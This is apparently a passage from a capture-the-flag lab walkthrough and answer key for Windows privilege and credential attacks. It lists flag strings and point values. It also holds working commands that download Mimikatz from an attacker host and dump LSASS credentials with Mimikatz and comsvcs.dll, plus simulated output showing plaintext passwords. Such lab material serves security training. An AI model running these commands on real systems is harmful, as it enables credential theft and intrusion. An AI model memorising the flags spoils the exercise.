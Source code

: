 **Screenshot Simulation:**
```
PS C:\> Get-LocalUser
Name                    Enabled Description
----                    ------- -----------
Administrator           True    Built-in administrator
jsmith                  True    Standard User
FLAG{RAICHU62619281}    True    You found the hidden user!
```

**Why:** Hidden users test thorough enumeration beyond standard commands.

---

## FLAG 3: LSASS Memory WS (45 points - Hard)
**Location:** LSASS Memory WS  
**Flag:** FLAG{BLASTOISE85932580}

### Attack Method: Memory Dumping on Workstation

```powershell
# After gaining admin access via unquoted service path or MSI
# Download Mimikatz
Invoke-WebRequest -Uri "http://$ATTACKER_IP/mimikatz.exe" -OutFile "C:\Temp\m.exe"

# Run Mimikatz
C:\Temp\m.exe

mimikatz # privilege::debug
mimikatz # sekurlsa::logonpasswords
mimikatz # sekurlsa::wdigest

# Alternative: Dump LSASS for offline analysis
rundll32.exe C:\Windows\System32\comsvcs.dll, MiniDump (Get-Process lsass).id C:\Temp\lsass.dmp full
```

**Screenshot Simulation:**
```
mimikatz # sekurlsa::wdigest
[0] { jsmith / Welcome1 }
[1] { localadmin / Administrator123 }
[*] WorkstationFlag : FLAG{BLASTOISE85932580}
```

**Why:** Workstation LSASS often contains more user credentials due to interactive logins. WDigest stores plaintext passwords.

---

## FLAG 4: Debug Privileges WS (40 points - Medium)
**Location:** Debug Privileges WS  
**Flag:** FLAG{VENUSAUR49841932}
